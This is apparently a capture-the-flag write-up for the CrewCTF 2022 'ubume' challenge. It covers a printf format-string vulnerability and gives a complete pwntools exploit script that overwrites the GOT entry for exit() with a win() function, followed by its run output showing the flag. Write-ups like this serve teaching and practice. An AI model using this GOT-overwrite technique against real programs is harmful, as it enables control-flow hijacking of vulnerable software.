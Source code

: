 ## Question 

isakhiwo somtya silala
Author : st4rn#0086
nc ubume.crewctf-2022.crewc.tf 1337

[chall](chall)

## Solution

The binary takes user input and displays it without a format specifier. 

```
00400729  int32_t main(int32_t argc, char** argv, char** envp) __noreturn

00400729  {
0040073d      void* fsbase;
0040073d      int64_t var_10 = *(int64_t*)((char*)fsbase + 0x28);
00400748      ignore_me();
00400754      puts("Haven't we met before?");
0040076d      void var_228;
0040076d      read(0, &var_228, 0x200);
00400781      printf(&var_228);
0040078b      exit(0);
0040078b      /* no return */
0040078b  }
```

Exit() the only function called after the format string vulnerbaility. So we can just overwrite it with the address of the win() function. We'll use pwntools fmtstr_payload() to create the format write, that overwrites the got address of exit() with the address of win().

```python
from pwn import *

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
r = ROP(e)

gs = '''
continue
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('ubume.crewctf-2022.crewc.tf', 1337)
    else:
        return process(e.path)

p = start()

payload_writes = {
        e.got['exit']: e.sym['win']
}

payload = fmtstr_payload(6,payload_writes,write_size='short')
p.sendline(payload)
p.interactive()
```

Running it gives us the flag. 

```
{7:52}~/workspace/crew-ctf/ubume ➭ python3 pwn-ubume.py BIN=./chall REMOTE
[*] '/root/workspace/crew-ctf/ubume/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loading gadgets for '/root/workspace/crew-ctf/ubume/chall'
[+] Opening connection to ubume.crewctf-2022.crewc.tf on port 1337: Done
[*] Switching to interactive mode
Haven't we met before?

new it. We've met before.
$ cat flag
crew{format_string_aattack_f0r_0verr1ding_GOT_!!!}
```